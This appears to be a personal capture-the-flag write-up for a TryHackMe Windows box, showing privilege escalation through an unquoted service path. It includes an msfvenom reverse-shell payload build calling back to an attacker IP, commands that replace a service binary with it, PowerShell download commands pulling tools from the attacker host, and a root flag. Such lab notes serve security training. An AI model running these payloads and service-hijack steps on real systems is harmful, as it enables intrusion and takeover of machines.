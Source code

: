 ## metasploit

using the powershell script

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

upload and execute

![[Pasted image 20210527131114.png]]

and run `Invoke-AllChesks`

![[Pasted image 20210527132801.png]]

#### unquoted service path vulnerability
![[Pasted image 20210527133239.png]]

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f exe -o exploit.exe`

![[Pasted image 20210527133515.png]]

Upload the explolit and replace the original service

```
sc stop AdvancedSystemCareService9
upload /home/sp00f/THM/steelmountain/www/exploit.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

sc start AdvancedSystemCareService9
```

![[Pasted image 20210527134000.png]]

and we got shell as root
![[Pasted image 20210527134157.png]]

![[Pasted image 20210527134207.png]]

root flag == 9af5f314f57607c00fd09803a587db80
![[Pasted image 20210527134312.png]]

## without metasploit
transfer the winpeas binary and run
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/winPEASx64.exe','C:\Users\bill\Desktop\winPEASx64.exe')"
```

![[Pasted image 20210527140613.png]]

![[Pasted image 20210527143409.png]]

or 
`powershell -c Get-Service`

![[Pasted image 20210527143618.png]]


```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/winPEASx64.exe','C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe')"
```

start the service and we got root

![[Pasted image 20210527143903.png]]